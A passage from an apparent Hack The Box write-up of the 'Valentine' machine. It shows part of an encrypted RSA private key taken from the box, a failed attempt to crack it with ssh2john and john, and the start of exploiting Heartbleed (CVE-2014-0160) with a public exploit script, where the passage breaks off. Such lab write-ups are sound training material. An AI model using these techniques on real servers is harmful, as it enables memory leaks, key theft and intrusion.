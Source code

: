 	r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe
	2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky
	e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP
	09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC
	dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX
	cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY
	pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj
	Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL
	suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW
	l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
	RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
	-----END RSA PRIVATE KEY-----┌
	```
	- `id_rsa` - Encrypted
3. Crack it w/ john
	```
	# Convert to john format
	┌──(root💀kali)-[~/htb/valentine/10.10.10.79/loot]
	└─# python ssh2john.py id_rsa > id_rsa_john
	
	# Bruteforce
	┌──(root💀kali)-[~/htb/valentine/10.10.10.79/loot]
	└─# john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_john 
	```
	- Failed
4. At this point me stuck, so I looked for nudges at [HackTheBox Forum](https://forum.hackthebox.com/t/valentine/445/)
	- The picture at `index.php` is a hint
	- Username is obvious
	

## TCP/443 (HTTPS) - Heartbleed
1. Proceed to `http://valentine.htb`
	 ![]({{ page.img_path }}Pasted%20image%2020220829030841.png)
	 - Bleeding heart
2. Search exploits named `bleed/heart`
	
	| Exploit Title                                                                      | Path                     |
	| ---------------------------------------------------------------------------------- | ------------------------ |
	| OpenSSL 1.0.1f TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure (Multiple  | multiple/remote/32764.py |
	| OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (1)                | multiple/remote/32791.c  |
	| OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (2) (DTLS Support) | multiple/remote/32998.c  |
	| OpenSSL TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure                   | multiple/remote/32745.py |
3. Try `multiple/remote/32764.py`
	1. `32745.py`, did not work for me even though it looks the same
	2. How does it work?
		- This serious flaw (CVE-2014-0160) is a missing bounds check before a `memcpy()` call that uses non-sanitized user input as the length parameter. An attacker can trick OpenSSL into allocating a 64KB buffer, copy more bytes than is necessary into the buffer, send that buffer back, and thus leak the contents of the victim’s memory, 64KB at a time. - [Source](https://owasp.org/www-community/vulnerabilities/Heartbleed_Bug)
		- This compromises the secret keys used to identify the service providers and to encrypt the traffic, the names and passwords of the users and the actual content. - [Source](https://heartbleed.com)
	3. Run exploit, extract base64 output
		```
		┌──(root💀kali)-[~/htb/valentine/10.10.10.79/exploit]
		└─# cat bleed.out 
		Trying SSL 3.0...